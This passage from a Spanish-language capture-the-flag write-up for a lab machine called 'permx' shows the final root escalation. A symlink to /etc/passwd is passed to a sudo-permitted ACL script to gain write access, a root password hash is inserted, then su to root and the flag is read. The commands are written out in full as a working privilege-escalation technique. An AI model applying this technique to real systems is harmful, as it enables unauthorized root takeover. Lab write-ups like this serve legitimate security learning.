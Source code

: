 ```bash
mtz@permx:~$ ln -sf /etc/passwd uwu
mtz@permx:~$ ls -la uwu
lrwxrwxrwx 1 mtz mtz 11 Nov  2 20:33 uwu -> /etc/passwd
mtz@permx:~$ sudo /opt/acl.sh mtz 7 /home/mtz/uwu
mtz@permx:~$ ls -la /etc/passwd
-rw-rwxr--+ 1 root root 1880 Nov  2 20:33 /etc/passwd
```

Ahora podemos simplemente colocarle una contraseña a root generada por nosotros:

```bash
# Aquí le he colocado de contraseña "uwuowo".
mtz@permx:~$ cat /etc/passwd
root:$1$wjKdeS4V$X6obydCrEpbG3uHewgKo7/:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
... [snip]
mtz@permx:~$ su root
Password: 
root@permx:/home/mtz#
```

Con esto ya podremos tomar la última flag sin problemas.

```bash
root@permx:/home/mtz# cd /root
root@permx:~# ls -la
total 44
drwx------  7 root root 4096 Nov  2 17:53 .
drwxr-xr-x 18 root root 4096 Jul  1 13:05 ..
drwxr-xr-x  2 root root 4096 Jun  5 12:25 backup
lrwxrwxrwx  1 root root    9 Jan 20  2024 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  2 root root 4096 May 31 11:05 .cache
drwx------  3 root root 4096 Nov  2 17:53 .config
drwxr-xr-x  3 root root 4096 May 31 11:06 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rwxr-xr-x  1 root root  354 Jun  6 05:25 reset.sh
-rw-r-----  1 root root   33 Nov  2 16:46 root.txt
drwx------  2 root root 4096 Jun  5 12:28 .ssh
root@permx:~# cat root.txt
60be38a474cca81a37673ff795******
```